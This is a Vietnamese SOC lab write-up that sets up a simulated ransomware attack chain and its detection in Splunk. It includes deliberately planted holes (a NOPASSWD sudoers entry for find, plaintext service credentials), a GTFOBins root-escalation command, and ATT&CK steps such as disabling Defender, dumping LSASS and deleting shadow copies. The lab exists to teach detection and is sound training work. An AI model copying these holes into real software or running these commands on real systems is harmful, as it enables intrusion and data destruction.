# Tuần 5: Mô Phỏng Kịch Bản Tấn Công và Risk-Based Alerting
> **Kiến trúc mô phỏng chuỗi tấn công đa tầng (Multi-Stage Cyber Kill Chain) kết hợp kỹ thuật phát hiện dựa trên rủi ro (Risk-Based Alerting - RBA), phân tích chi tiết False Positive / False Negative, bằng chứng thực tế từ Splunk và hình ảnh trích xuất từ Lab.**

---

## 1. Tóm tắt kịch bản (Executive Summary và 5W1H)

!!! abstract "Tổng quan kịch bản"

    Kịch bản mô phỏng một cuộc tấn công mạng có chủ đích (Targeted Attack / Ransomware Operation) bắt đầu từ việc khai thác lỗ hổng upload trên ứng dụng web public-facing tại vùng DMZ, chiếm quyền root Linux, thiết lập kênh điều khiển ngầm (Reverse SOCKS5 Tunnel) để vượt qua phân vùng mạng, đánh cắp credential nội bộ, di chuyển ngang (Lateral Movement) sang máy chủ Windows Server 2022, vô hiệu hóa cơ chế phòng thủ Defender, trích xuất bộ nhớ LSASS, phá hủy bản sao lưu phục hồi (Volume Shadow Copies) và tiến hành mã hóa dữ liệu hàng loạt nhằm mục đích tống tiền kép (*Double Extortion*).





*Hình 1.1: Sơ đồ chuỗi tấn công đa tầng (Web Shell -> C2 Tunnel -> Lateral Movement -> Ransomware).* 

### Bảng phân tích 5W1H và Ma trận Chiến thuật

| Hạng mục | Chi tiết phân tích kỹ thuật |
| :--- | :--- |
| **What (Mô tả)** | Chuỗi tấn công hoàn chỉnh: **Initial Access $\rightarrow$ Execution $\rightarrow$ Persistence $\rightarrow$ Privilege Escalation $\rightarrow$ Credential Access $\rightarrow$ Defense Evasion $\rightarrow$ Lateral Movement $\rightarrow$ Impact**. |
| **Why (Mục tiêu)** | Tống tiền kép (*Double Extortion*): Chiếm đoạt dữ liệu máy chủ nội bộ, phá hủy cơ chế khôi phục dự phòng (Volume Shadow Copies) và mã hóa dữ liệu sản xuất. |
| **Who (Chủ thể)** | External Threat Actor / Ransomware Affiliate sử dụng kết hợp công cụ nguồn mở (*Chisel, Procdump, Evil-WinRM*) và kỹ thuật sống dựa vào tài nguyên có sẵn (*LOLBins / GTFOBins*). |
| **Where (Phạm vi)** | Vùng DMZ công khai (Web Server Ubuntu 22.04) $\rightarrow$ Vùng nội bộ Internal Restricted (Windows Server 2022, Active Directory Environment). |
| **When (Thời gian)** | Thời lượng diễn tập: **60 - 90 phút** (Mô phỏng chuỗi Dwell Time thực tế kéo dài từ vài ngày đến vài tuần). |
| **Prerequisites** | Lỗ hổng Upload file không kiểm duyệt, sai sót cấp quyền `sudo` (NOPASSWD GTFOBins), lộ lọt thông tin xác thực trong mã nguồn, Windows chưa bật LSA Protection/Credential Guard. |
| **Monitored Assets** | - `Web-Server-DMZ` (192.168.50.20 / 192.168.100.20 - `uf-ubuntu`)<br>- `Win-Server-Target` (192.168.100.30 - `WIN-I370HR7VSPS`)<br>- `Splunk-SIEM-Core` (192.168.100.10 - `splunk`) |
| **Log Sources** | `web_logs` (Apache access combined), `linux_security` (Linux auditd, auth.log), `windows_security` (EventCode 4624, 4720, 4732, 4688), `windows_sysmon` (EventCode 1, 3, 10, 11), `windows_logs` (Defender EventCode 5001, PowerShell 4104). |

### Bảng Ánh Xạ Chuỗi Tấn Công MITRE ATT&CK Toàn Diện

| STT | MITRE Tactic | MITRE Technique | Hành vi kỹ thuật cụ thể |
| :---: | :--- | :--- | :--- |
| **1** | `TA0001` (Initial Access) | `T1190` - Exploit Public App | Khai thác lỗ hổng Upload trên DVWA tải lên file `shell.php` |
| **2** | `TA0002` (Execution) | `T1505.003` - Web Shell | Gửi HTTP GET `shell.php?cmd=...` kích hoạt Reverse TCP Shell |
| **3** | `TA0003` (Persistence) | `T1053.003` - Cron | Đặt crontab kết nối reverse shell mỗi 5 phút dưới quyền `www-data` |
| **4** | `TA0004` (Privilege Escalation) | `T1548.003` - Sudo GTFOBins | Leo quyền root bằng lệnh `sudo find . -exec /bin/sh` (NOPASSWD) |
| **5** | `TA0006` (Credential Access) | `T1552.001` - Config File | Đọc `config.inc.php` trích xuất thông tin tài khoản dịch vụ `svc_backup` |
| **6** | `TA0011` (Command và Control) | `T1105` + `T1090` - Tool và Tunnel | Tải `chisel` về `/tmp` và mở Reverse SOCKS5 Tunnel |
| **7** | `TA0008` (Lateral Movement) | `T1021.006` - WinRM Remote | Kết nối `evil-winrm` sang Windows Server bằng `svc_backup` |
| **8** | `TA0003` (Persistence) | `T1136.001` - New Account | Tạo tài khoản ngầm `backdoor` và thêm vào `Administrators` |
| **9** | `TA0005` (Defense Evasion) | `T1562.001` - Defender Disable | Tắt Real-time Protection của Windows Defender (`Set-MpPreference`) |
| **10** | `TA0006` (Credential Access) | `T1003.001` - LSASS Dump | Tạo Windows Service chạy `procdump64.exe` dump bộ nhớ `lsass.exe` |
| **11** | `TA0040` (Impact) | `T1490` - Inhibit Recovery | Xóa Volume Shadow Copies qua `vssadmin delete shadows` |
| **12** | `TA0040` (Impact) | `T1486` - Data Encrypted | Chạy script mã hóa hàng loạt file `LabData` sang đuôi `.locked` |

---

## 2. Mô hình Lab và Kiến trúc mạng (Network Topology)

!!! warning "Nguyên tắc cách ly và Định tuyến (Routing Policy)"

    - **Máy tấn công (Kali Attacker)** chỉ kết nối trực tiếp được với máy chủ Web qua dải mạng DMZ (`192.168.50.0/24`).
    - **Không có kết nối trực tiếp** từ Kali đến mạng Internal (`192.168.100.0/24`). Bắt buộc kẻ tấn công phải triển khai kỹ thuật **Network Pivoting và Reverse Tunneling** qua máy chủ Web Server bị chiếm quyền.
    - **Splunk Server** đặt tại mạng quản trị/nội bộ, tiếp nhận log tập trung từ Universal Forwarder (UF) trên tất cả các node thông qua cổng TCP `9997`.





*Hình 1.2: Sơ đồ kiến trúc mạng Lab thực nghiệm kết nối giữa Attacker, Web Server và Target Windows.*

### Danh mục máy ảo (Virtual Machine Matrix)

| Tên máy | Vai trò | Hệ điều hành | Cấu hình IP | Hostname Splunk | RAM | Thành phần cài đặt chính |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| **Kali Attacker** | Máy tấn công | Kali Linux 2025.x | `192.168.50.100` (eth1) | - | 4 GB | Nmap, Chisel, Evil-WinRM, Python3 HTTP |
| **Web Server** | DMZ / Bàn đạp | Ubuntu 22.04 LTS | `192.168.50.20` / `192.168.100.20` | `uf-ubuntu` | 2 GB | Apache2, PHP, DVWA, Auditd, Splunk UF, Socat |
| **Windows Server** | Mục tiêu nội bộ | Windows Server 2022 | `192.168.100.30` | `WIN-I370HR7VSPS` | 4 GB | Active Directory/Local, Sysmon, Splunk UF, WinRM |
| **Splunk Server** | Hệ thống SIEM | Ubuntu 22.04 LTS | `192.168.100.10` | `splunk` | 8 GB | Splunk Enterprise 9.x / Enterprise Security |

---

## 3. Hướng dẫn thiết lập môi trường Lab (Lab Setup và Hardening)

### 3.1 Cấu hình Splunk Server (`192.168.100.10`)

```bash
# 1. Tải và cài đặt Splunk Enterprise
wget -O splunk.deb "https://download.splunk.com/products/splunk/releases/9.x.x/linux/splunk-9.x.x-linux-2.6-amd64.deb"
sudo dpkg -i splunk.deb

# 2. Khởi động và cấu hình nhận kết nối
sudo /opt/splunk/bin/splunk start --accept-license --answer-yes --no-prompt --seed-passwd 'Splunk@Admin2026!'
sudo /opt/splunk/bin/splunk enable boot-start
sudo /opt/splunk/bin/splunk enable listen 9997 -auth admin:'Splunk@Admin2026!'
```

Cấu hình tạo các index chuyên dụng tại `/opt/splunk/etc/system/local/indexes.conf`:

```ini
[web_logs]
homePath = $SPLUNK_DB/web_logs/db
coldPath = $SPLUNK_DB/web_logs/colddb
thawedPath = $SPLUNK_DB/web_logs/thaweddb

[linux_logs]
homePath = $SPLUNK_DB/linux_logs/db
coldPath = $SPLUNK_DB/linux_logs/colddb
thawedPath = $SPLUNK_DB/linux_logs/thaweddb

[linux_security]
homePath = $SPLUNK_DB/linux_security/db
coldPath = $SPLUNK_DB/linux_security/colddb
thawedPath = $SPLUNK_DB/linux_security/thaweddb

[windows_logs]
homePath = $SPLUNK_DB/windows_logs/db
coldPath = $SPLUNK_DB/windows_logs/colddb
thawedPath = $SPLUNK_DB/windows_logs/thaweddb

[windows_security]
homePath = $SPLUNK_DB/windows_security/db
coldPath = $SPLUNK_DB/windows_security/colddb
thawedPath = $SPLUNK_DB/windows_security/thaweddb

[windows_sysmon]
homePath = $SPLUNK_DB/windows_sysmon/db
coldPath = $SPLUNK_DB/windows_sysmon/colddb
thawedPath = $SPLUNK_DB/windows_sysmon/thaweddb
```

```bash
sudo /opt/splunk/bin/splunk restart
```

---

### 3.2 Cấu hình Web Server Linux (`192.168.50.20` / `192.168.100.20`)

```bash
# 1. Cài đặt Web Server và DVWA
sudo apt update && sudo apt install -y apache2 php libapache2-mod-php php-mysqli mysql-server auditd socat git
git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
sudo chown -R www-data:www-data /var/www/html/dvwa

# 2. Cài đặt Auditd Rules giám sát sâu
sudo tee /etc/audit/rules.d/soc-lab.rules <<'EOF'
## Giám sát ghi đè Cronjob (Persistence)
-w /etc/cron.d/ -p wa -k cron_file_write
-w /etc/crontab -p wa -k cron_file_write
-w /var/spool/cron/crontabs/ -p wa -k cron_file_write

## Giám sát thay đổi file cấu hình đặc quyền Sudo
-w /etc/sudoers -p wa -k sudo_change
-w /etc/sudoers.d/ -p wa -k sudo_change

## Giám sát đọc file cấu hình nhạy cảm
-w /var/www/html/dvwa/config/ -p r -k sensitive_config_read

## Giám sát thực thi lệnh và tạo kết nối mạng
-a always,exit -F arch=b64 -S execve -k exec_cmds
-a always,exit -F arch=b64 -S connect -k net_connect
EOF

sudo augenrules --load
sudo systemctl restart auditd

# 3. Tạo cấu hình leo quyền Sudoers (GTFOBins NOPASSWD find)
echo "www-data ALL=(ALL) NOPASSWD: /usr/bin/find" | sudo tee /etc/sudoers.d/lab-misconfig

# 4. Gài thông tin xác thực giả lập vào file config
echo "// LDAP_SVC_ACCOUNT=svc_backup / LDAP_SVC_PASS=P@ssw0rd2026!" | sudo tee -a /var/www/html/dvwa/config/config.inc.php
```

Cấu hình file `/opt/splunkforwarder/etc/system/local/inputs.conf`:

```ini
[monitor:///var/log/apache2/access.log]
disabled = false
index = web_logs
sourcetype = access_combined

[monitor:///var/log/audit/audit.log]
disabled = false
index = linux_security
sourcetype = auditd

[monitor:///var/log/auth.log]
disabled = false
index = linux_security
sourcetype = linux_secure
```

```bash
sudo /opt/splunkforwarder/bin/splunk restart
```

---

### 3.3 Cấu hình Windows Server 2022 (`192.168.100.30`)

```powershell
# 1. Cài đặt Sysmon với SwiftOnSecurity Config
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "C:\Sysmon.zip"
Expand-Archive C:\Sysmon.zip -DestinationPath C:\Sysmon
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile "C:\Sysmon\config.xml"
C:\Sysmon\Sysmon64.exe -accepteula -i C:\Sysmon\config.xml

# 2. Bật Advanced Audit Policy (Logon và Process Creation with CommandLine)
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"User Account Management" /success:enable /failure:enable
auditpol /set /subcategory:"Security Group Management" /success:enable /failure:enable
auditpol /set /subcategory:"Process Creation" /success:enable
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f

# 3. Kích hoạt dịch vụ WinRM cho phép quản trị từ xa
Enable-PSRemoting -Force
winrm quickconfig -force

# 4. Khởi tạo tài khoản dịch vụ mục tiêu
$secPass = ConvertTo-SecureString "P@ssw0rd2026!" -AsPlainText -Force
New-LocalUser -Name "svc_backup" -Password $secPass -Description "Internal Backup Service Account"
Add-LocalGroupMember -Group "Administrators" -Member "svc_backup"

# 5. Tạo dữ liệu giả lập nạn nhân (Target Corporate Files)
New-Item -ItemType Directory -Path "C:\Users\Public\LabData" -Force
1..30 | ForEach-Object { 
    Set-Content -Path "C:\Users\Public\LabData\financial_report_$_.txt" -Value "Confidential Company Financial Record #$_ - Strict Internal Use Only"
}
```


Cấu hình file `C:\Program Files\SplunkUniversalForwarder\etc\system\local\inputs.conf`:

```ini
[WinEventLog://Security]
disabled = 0
index = windows_security

[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = windows_sysmon

[WinEventLog://System]
disabled = 0
index = windows_logs

[WinEventLog://Microsoft-Windows-PowerShell/Operational]
disabled = 0
index = windows_logs

[WinEventLog://Microsoft-Windows-Windows Defender/Operational]
disabled = 0
index = windows_logs
```

---

### 3.4 Chuẩn bị công cụ trên Kali Attacker (`192.168.50.100`)

```bash
# 1. Cấu hình IP và thư mục công cụ
sudo ip addr add 192.168.50.100/24 dev eth1 2>/dev/null || true
mkdir -p ~/soc_tools && cd ~/soc_tools

# 2. Tải Chisel và ProcDump
wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_linux_amd64.gz -O chisel.gz
gunzip chisel.gz && mv chisel_1.10.0_linux_amd64 chisel && chmod +x chisel
wget https://live.sysinternals.com/procdump64.exe -O procdump64.exe

# 3. Khởi chạy HTTP Server phục vụ tải payload
python3 -m http.server 8000
```


*Hình 3.1: Xác thực cấu hình địa chỉ IP máy tính tấn công Kali Linux.*

*Hình 3.2: Khởi động dịch vụ HTTP Server trên Kali Linux để phát tán payload.*

---

## 4. Chuỗi Tấn Công Chi Tiết và Bằng Chứng Thực Tế (Step-by-Step Attack Execution)



---

### Bước 1: Trinh sát mục tiêu công khai (Reconnaissance)


*Hình 4.1: Sơ đồ tác chiến và mục tiêu quét mạng Bước 1 từ slide bài giảng.*

- **MITRE ATT&CK**: `T1595.002` (Active Scanning: Vulnerability Scanning)
- **Mục tiêu**: Xác định các cổng mở, phiên bản dịch vụ Web Apache/PHP và các endpoint upload có thể khai thác.
- **Lệnh thực thi trên Kali**:
```bash
nmap -sV -sC -p 80,443 192.168.50.20
nikto -h http://192.168.50.20/dvwa/
```


*Hình 4.2: Quét thăm dò dải mạng DMZ bằng công cụ Nmap từ Kali Linux.*

*Hình 4.3: Quét chi tiết các dịch vụ đang mở trên máy chủ mục tiêu Ubuntu Web Server.*

---

### Bước 2: Khai thác Upload và Kích hoạt Web Shell RCE (Initial Access và Execution)


*Hình 4.4: Quy trình khai thác lỗ hổng tải tệp mã độc Web Shell Bước 2 từ slide bài giảng.*

- **MITRE ATT&CK**: `T1190` (Exploit Public-Facing App), `T1505.003` (Server Software Component: Web Shell), `T1059.004` (Unix Shell)
- **Mục tiêu**: Vượt qua bộ lọc upload trên DVWA (Security = Low), tải lên `shell.php` và kích hoạt reverse shell tương tác về Kali qua port 4444.


*Hình 4.3: Truy cập giao diện ứng dụng web dễ bị tổn thương DVWA trên Web Server.*
